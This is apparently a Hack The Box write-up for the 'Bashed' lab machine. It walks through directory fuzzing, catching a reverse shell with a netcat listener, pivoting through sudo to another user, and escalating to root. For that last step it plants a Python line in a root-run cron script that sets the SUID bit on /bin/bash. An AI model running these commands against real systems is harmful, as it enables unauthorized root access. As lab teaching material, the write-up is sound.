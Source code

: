 ```yaml
---
layout: single
title: Bashed - Hack The Box
excerpt: "Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted."
date: 2025-05-07
classes: wide
header:
  teaser: /img2/bashed.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Web Enumeration
  - Abusing WebShell Utility (RCE)
  - Abusing Sudoers Privilege (User Pivoting)
  - Detecting Cron Jobs Running on the System
  - Exploiting Cron Job Through File Manipulation in Python Executed by Root [Privilege Escalation]
---
```



## Reconnaissance

- Gobuster

```bash
gobuster dir -u http://10.10.10.68/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

![](/img2/Pasted%20image%2020250507130753.png)

![](/img2/Pasted%20image%2020250507133336.png)

## Exploitation

- Send reverse shell

![](/img2/Pasted%20image%2020250507133521.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- List sudoers

```bash 
sudo -l
```

![](/img2/Pasted%20image%2020250507133654.png)

> We can execute commands with scriptmanager user

- User Pivoting

```bash
sudo -u scriptmanager bash
```

- Find scriptmanager files

```bash
find / -user scriptmanager 2>/dev/null | grep -vE "proc"
```

![](/img2/Pasted%20image%2020250507134938.png)

- FInd crontabs with bash script

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

echo -e "[+] Listing new commands...\n\n"
while true;do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|kworker"
        old_process=$new_process
done
```

![](/img2/Pasted%20image%2020250507144641.png)

- Change test.py script

```python
import os
os.system("chmod u+s /bin/bash")
```

```bash
ls -l /bin/bash
```

![](/img2/Pasted%20image%2020250507144930.png)

```bash
bash -p
cat /root/root.txt
```

![](/img2/Pasted%20image%2020250507145105.png)